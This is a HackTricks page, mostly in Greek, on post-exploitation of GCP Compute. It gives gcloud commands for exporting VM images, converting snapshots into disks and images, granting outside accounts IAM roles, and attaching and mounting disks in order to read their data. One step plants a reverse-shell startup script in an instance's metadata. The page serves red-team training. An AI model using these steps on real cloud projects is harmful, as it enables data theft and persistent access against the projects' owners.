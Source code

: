 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Για περισσότερες πληροφορίες σχετικά με το Compute και το VPC (Δικτύωση) ελέγξτε:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Εξαγωγή & Επιθεώρηση Εικόνων τοπικά

Αυτό θα επέτρεπε σε έναν επιτιθέμενο να **έχει πρόσβαση στα δεδομένα που περιέχονται μέσα σε ήδη υπάρχουσες εικόνες** ή **να δημιουργήσει νέες εικόνες τρεχουσών VM** και να έχει πρόσβαση στα δεδομένα τους χωρίς να έχει πρόσβαση στην τρέχουσα VM.

Είναι δυνατή η εξαγωγή μιας εικόνας VM σε ένα bucket και στη συνέχεια η λήψη της και η τοπική τοποθέτησή της με την εντολή:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Για να εκτελέσει αυτή την ενέργεια, ο επιτιθέμενος μπορεί να χρειαστεί δικαιώματα πάνω στον αποθηκευτικό κάδο και σίγουρα **δικαιώματα πάνω στο cloudbuild**, καθώς είναι η **υπηρεσία** που θα ζητηθεί να εκτελέσει την εξαγωγή.\
Επιπλέον, για να λειτουργήσει αυτό, ο SA του codebuild και ο SA του compute χρειάζονται προνομιακά δικαιώματα.\
Ο SA του cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` χρειάζεται:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Και ο SA `<project-id>-compute@developer.gserviceaccount.com` χρειάζεται:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Εξαγωγή & Επιθεώρηση Στιγμιότυπων & Δίσκων τοπικά

Δεν είναι δυνατόν να εξάγουμε άμεσα στιγμιότυπα και δίσκους, αλλά είναι δυνατόν να **μετατρέψουμε ένα στιγμιότυπο σε δίσκο, έναν δίσκο σε εικόνα** και ακολουθώντας την **προηγούμενη ενότητα**, να εξάγουμε αυτή την εικόνα για να την επιθεωρήσουμε τοπικά.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Επιθεώρηση μιας Εικόνας δημιουργώντας μια VM

Με στόχο την πρόσβαση στα **δεδομένα που είναι αποθηκευμένα σε μια εικόνα** ή μέσα σε μια **τρέχουσα VM** από όπου ένας επιτιθέμενος **έχει δημιουργήσει μια εικόνα,** είναι δυνατόν να παραχωρηθεί πρόσβαση σε έναν εξωτερικό λογαριασμό πάνω στην εικόνα:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
και στη συνέχεια δημιουργήστε μια νέα VM από αυτό:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Αν δεν μπορούσατε να δώσετε πρόσβαση στον εξωτερικό σας λογαριασμό μέσω της εικόνας, θα μπορούσατε να εκκινήσετε μια VM χρησιμοποιώντας αυτή την εικόνα στο έργο του θύματος και **να κάνετε τα μεταδεδομένα να εκτελούν ένα reverse shell** για να αποκτήσετε πρόσβαση στην εικόνα προσθέτοντας την παράμετρο:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Με στόχο την πρόσβαση στα **δεδομένα που είναι αποθηκευμένα σε έναν δίσκο ή σε ένα στιγμιότυπο, θα μπορούσατε να μετατρέψετε το στιγμιότυπο σε δίσκο, έναν δίσκο σε εικόνα και να ακολουθήσετε τα προηγούμενα βήματα.**

Ή θα μπορούσατε να **παρέχετε πρόσβαση σε έναν εξωτερικό λογαριασμό** πάνω στον δίσκο (αν το αρχικό σημείο είναι ένα στιγμιότυπο, δώστε πρόσβαση στο στιγμιότυπο ή δημιουργήστε έναν δίσκο από αυτό):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Συνδέστε τον δίσκο** σε μια παρουσίαση:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount the disk inside the VM:

1.  **SSH into the VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Εντοπίστε τον Δίσκο**: Μόλις μπείτε στο VM, εντοπίστε τον νέο δίσκο καταγράφοντας τις συσκευές δίσκου. Συνήθως, μπορείτε να τον βρείτε ως `/dev/sdb`, `/dev/sdc`, κ.λπ.
3. **Μορφοποιήστε και Συνδέστε τον Δίσκο** (αν είναι νέος ή ακατέργαστος δίσκος):
*   Δημιουργήστε ένα σημείο σύνδεσης:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Συνδέστε τον δίσκο:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Αν **δεν μπορείτε να δώσετε πρόσβαση σε ένα εξωτερικό έργο** στο στιγμιότυπο ή τον δίσκο, ίσως χρειαστεί να **εκτελέσετε αυτές τις ενέργειες μέσα σε μια παρουσία στο ίδιο έργο με το στιγμιότυπο/δίσκο**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
